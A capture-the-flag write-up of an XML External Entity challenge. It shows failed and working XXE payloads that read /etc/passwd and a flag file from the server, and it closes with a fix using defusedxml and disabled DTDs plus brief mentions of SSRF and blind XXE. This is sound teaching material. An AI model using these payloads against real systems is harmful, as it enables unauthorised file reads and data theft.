





# Challenge 4 · XML External Entity (XXE) — XML Profile Importer

**Category:** Web / XXE
**Challenge:** *Import a user profile as XML. The parser "supports standard XML features" and echoes back the field values it finds. Abuse external entity resolution to read a local file off the server and recover the flag.*



## Recon

The importer takes an XML document with a `<profile>` root and echoes the parsed fields back as JSON:

```xml
<?xml version="1.0"?>
<profile>
  <name>Alice</name>
  <email>alice@example.com</email>
</profile>
```
→ `{ "email": "alice@example.com", "name": "Alice" }`

Two things make this exploitable. The subtitle brags that the parser "supports **standard XML features**" — the relevant standard feature being **external entity resolution**, which most parsers should have disabled. And the server **reflects** `name` and `email` straight back, giving a ready-made channel to exfiltrate whatever an entity expands to. That combination is classic **XXE**: declare an external entity in the DTD, reference it inside a reflected field, and let the parser fetch the file for you.

Important distinction up front: an external entity isn't *executed*. The parser simply **retrieves and substitutes** the target — it doesn't care whether the target is XML or a program, which is exactly why a plain file like `/etc/passwd` gets inlined.

## Exploitation

### Attempt 1 — two roots (`junk after document element`)

First try followed a generic tutorial payload with a `<foo>` wrapper:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>
<profile> ... </profile>
```



`<foo>` and `<profile>` are **two root elements** — XML allows exactly one. The parser treats `<foo>` as the document and everything after as junk. The `<foo>` wrapper is also useless here anyway: the server only echoes fields it recognises (`name`, `email`), so the entity has to land in one of *those*, not an invented element.

### Attempt 2 — declaration with no URI (silent no-op)

Collapsed to a single `<profile>` root, but dropped the entity's target:

```xml
<!ENTITY xxe SYSTEM ]>
...
<name>&xxe;</name>
```



Parses cleanly but `SYSTEM` was left pointing at nothing, so the entity resolved to nothing and the defaults came back. `SYSTEM` must be followed by a quoted URI.

### Attempt 3 — file read confirmed

Full payload — entity declared with a real `file://` URI (three slashes = empty host + absolute path `/etc/passwd`), referenced inside the reflected `name` field, and the entity declaration properly terminated with its own `>`:

```xml
<?xml version="1.0"?>
<!DOCTYPE profile [
<!ELEMENT profile ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<profile>
  <name>&xxe;</name>
  <email>alice@example.com</email>
</profile>
```



→ `"name": "root:x:0:0:root:/root:/bin/bash\nctfuser:x:1001:1001:::"`

External entity resolution is **on**, and arbitrary local file read is confirmed. The `\n` in the output is the newline between passwd entries — the whole file was inlined wherever `&xxe;` sat, proving the parser treats a file path and a user string as interchangeable.

### Getting the flag

`passwd` was only proof. Note that `ctfuser`'s home-directory field is **blank** (`...1001:1001:::`), a deliberate nudge so the path can't be copied straight out. Rather than hunt the home directory, the simplest guess won: the flag file sitting at filesystem root.

```xml
<!ENTITY xxe SYSTEM "file:///flag.txt">
```



→ `"name": "Flag: CTF{xml_3xt3rn4l_3nt1ty_l34k3d}\nClassification: TOP SECRET"`

## Flag

```
CTF{xml_3xt3rn4l_3nt1ty_l34k3d}
```

## Takeaway

The parser resolved a user-supplied **external entity** against the local filesystem and the app reflected the result, turning an XML import into arbitrary file read. The flag name spells the vuln: an **XML External Entity** was **leaked**.

**Fix** — this is a parser-configuration problem, not input validation. Disable DOCTYPE / DTD processing (and external entity + external DTD loading) on the parser. In Python's `defusedxml`, or via `lxml` with `resolve_entities=False` / `no_network=True` and forbidding DTDs, the payload returns `&xxe;` literally instead of a file.

**Related:** swap `file://` for `http://127.0.0.1:…` and the same primitive becomes **SSRF** — the parser makes the outbound request. And if the field weren't reflected, the data could still be exfiltrated out-of-band via a parameter entity pointing at an attacker-controlled server — **blind XXE**.
